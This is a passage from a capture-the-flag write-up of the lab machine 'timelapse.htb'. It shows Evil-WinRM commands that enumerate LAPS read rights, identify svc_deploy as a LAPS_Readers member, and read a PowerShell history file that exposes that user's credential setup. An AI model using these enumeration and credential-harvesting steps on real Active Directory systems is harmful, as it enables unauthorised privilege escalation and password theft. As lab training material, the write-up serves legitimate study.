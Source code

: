 **Checks the rights on each computer with LAPS enabled for any groups with read access and users with "All Extended Rights":**
```
*Evil-WinRM* PS C:\Users\legacyy\Desktop> Find-AdmPwdExtendedRights

ComputerName       Identity               Reason
------------       --------               ------
dc01.timelapse.htb TIMELAPSE\LAPS_Readers Delegated
```

Hmm... It seems like the **domain group `LAPS_Readers` can read LAPS passwords**.

**We can check which member belongs to `LAPS_Readers` group:**
```shell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> net groups LAPS_Readers
Group name     LAPS_Readers
Comment

Members

-------------------------------------------------------------------------------
svc_deploy
```

So, `svc_deploy` is a member of group `LAPS_Readers`.

That being said, **if we can authenticated as `svc_deploy` domain user, we can dump LAPS passwords!**

**Domain user `svc_deploy` details:**
```shell
*Evil-WinRM* PS C:\Users\legacyy\Documents> net user svc_deploy /domain
User name                    svc_deploy
Full Name                    svc_deploy
[...]
Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
```

And this domain user is a member of `Remote Management User` local group! Which means **this domain user can WinRM into the Domain Controller**!

**After enumerate the Domain Controller deeper, I found an interesting PowerShell history file:**
```shell
*Evil-WinRM* PS C:\Users\legacyy\Documents> type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString '{Redacted}' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
